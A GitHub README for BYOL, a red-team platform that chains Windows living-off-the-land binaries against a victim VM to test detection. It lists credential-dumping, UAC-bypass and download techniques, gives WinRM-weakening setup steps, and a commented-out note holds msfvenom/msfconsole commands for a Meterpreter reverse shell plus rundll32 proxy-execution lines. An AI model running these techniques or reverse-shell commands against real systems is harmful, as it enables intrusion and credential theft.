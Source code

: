 # Build-Your-Own-LOLBins
![Python](https://img.shields.io/badge/python_3.10.9-3670A0?style=for-the-badge&logo=python&logoColor=ffdd54)
![Windows](https://img.shields.io/badge/Windows-0078D6?style=for-the-badge&logo=windows&logoColor=white)

tBuild Your Own LOLBins (BYOL) is a threat simulation platform used for demonstrating the weaponization and detection
of Living-off-the-Land binaries native to the Windows Operating System. 

## Inspiration
This project is highly inspired by [Atomic Red Team](https://github.com/redcanaryco/atomic-red-team) and aims to expand beyond the scope of that by eliminating atomicity in individual test cases and providing flexibility in customization.

## Featues
* LOLBins Chaining
* Self-Cleanup
* Commandline Obfuscation
  * Globufscation Wildcards
  * Character Substitution
* Customizable Payloads
* Custom Templates
* APT Procedural Examples
* MITRE ATT&CK Framework Support

## Installation
The technical requirements of this project are:
* Python 3.10.9
* Windows 10 64-bit (Victim Virtual Machine)
<br>

**NOTE**: BYOL uses Windows Remote Management (WinRM) to communicate with the remote host.

```
# To enable WinRM on the victim machine:

$ winrm quickconfig
$ winrm set winrm/config/service '@{AllowUnencrypted="true"}'
$ winrm set winrm/config/service/auth '@{Basic="true"}'
$ netsh advfirewall firewall add rule name="WinRM-HTTP" dir=in localport=5985 protocol=TCP action=allow
$ Set-NetConnectionProfile -NetworkCategory Private
```

## Technique Coverage
| LOLBins | Variants | Objectives |
|:-----|:---------:|:-----------|
Certutil.exe | 5 | `Download` `ADS` `Encode` `Decode`
Msiexec.exe | 1 | `Execute`
Regsvr32.exe | 3 | `Execute` `AWL Bypass`
Cmstp.exe | 1 | `Execute`
Esentutl.exe | 2 | `ADS` `Credentials Dumping`
Rdrleakdiag.exe | 1 | `Credentials Dumping`
Makecab.exe | 1 | `Conceal`
Extract32.exe | 1 | `Decode`
Reg.exe | 3 | `AWL Bypass` `UAC Bypass`
Verclsid.exe | 1 | `Execute`
Regedit.exe | 1 | `Upload`
Mavinject.exe | 1 | `Execute`
Bitsadmin.exe | 1 | `Download`
Expand.exe | 2 | `Copy` `ADS`
Cscript.exe | 2 | `Execute`
Rundll32.exe | 7 | `Execute` `Download`
Mshta.exe | 3 | `Execute` `Download`
Wuauclt.exe | 1 | `Execute`
Eventvwr.exe | 1 | `UAC Bypass`
Pcalua.exe | 2 | `Execute`
Wmic.exe | 3 | `Execute`
Cmd.exe | 1 | `Execute`
Powershell.exe | 4 | `Execute`

## To-Do
- [X] Export Report + JSON
- [ ] WinRM Exceptions
<!-- 
**PRODUCTION DEPLOYMENT:**
```
$ & c:/Users/Wesley/Documents/BYOL/venv/Scripts/Activate.ps1
env> python manage.py runserver
env> python manage.py runserver --insecure
env> python manage.py makemigrations
env> python manage.py migrate
env> python manage.py celery
env> python -m pip install pywinrm
```

## Usage

## Limitations
* Use Local Administrator Account
* Recommended to Disable Antivirus
* Recommended to use Cleanup with ErrorLevel
* Recommended to put Cleanup before Verification for accurate result
* Require user to manually close certain GUI Error Box so that scan can continue especially when antivirus is enabled (Rundll32)
* Does not recommend customization, although available
* All command behind an ampersand "&" will be passed into cmd.exe

## CSS Components
* CSS + HTML + jQuery + Ajax
* Bootstrap
  * Select2
  * Alerts
  * Cards
  * Accordion + Collapse
  * Offcanvas + Backdrop
  * Table + DataTable
  * Breadcrumb
* Celery + Redis

## Note
```
IF NOT EXIST %TEMP%\byol.dll EXIT 2
Start-Process regsvr32 $env:TEMP\byol.dll

msfvenom -p windows/x64/meterpreter/reverse_http LHOST=192.168.127.131 LPORT=4444 -f csharp
sudo msfconsole -x "use exploit/multi/handler;set payload windows/x64/meterpreter/reverse_http;set LHOST 192.168.127.131;set LPORT 4444;run -j"
(for /f "tokens=5" %a in ('netstat -ano ^| find ":4444" ') do taskkill /f /pid %a)

regasm
regsvcs
rundll32.exe advpack.dll, #+12 calc.exe
rundll32.exe zipfldr,RouteTheCall calc.exe
rundll32.exe url,OpenURL file://c:\windows\system32\calc.exe
rundll32.exe url.dll,FileProtocolHandler calc.exe
```
 -->

